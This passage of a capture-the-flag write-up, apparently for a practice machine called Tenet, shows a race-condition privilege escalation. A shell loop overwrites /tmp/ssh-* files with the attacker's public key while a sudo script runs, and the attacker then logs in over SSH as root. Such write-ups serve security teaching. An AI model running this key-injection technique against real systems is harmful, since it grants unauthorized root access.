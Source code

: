 I want a loop that will run constantly, looking for files starting with `ssh-` in `/tmp`, and replacing their contents with my public key.

```

neil@tenet:~$ while true; do for fn in /tmp/ssh-*; do echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" > $fn; done; done

```

Now, in a second terminal, I’ll run `sudo enableSSH.sh`:

```

neil@tenet:~$ sudo enableSSH.sh 
Error in adding root@ubuntu to authorized_keys file!

```

Because it’s an attack on a race condition, I will lose the race sometimes, and I’ll know that because it’ll say that it successfully added root@ubuntu. When it fails, nobody@nothing will be in `authorized_keys`, and I’ll get the failure message:

```

neil@tenet:~$ sudo enableSSH.sh 
Error in adding root@ubuntu to authorized_keys file!

```

Then I can connect over SSH as root:

```

root@kali# ssh -i ~/keys/ed25519_gen root@10.10.10.223
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-129-generic x86_64)
...[snip]...
root@tenet:~# cat root.txt
4173ef70************************

```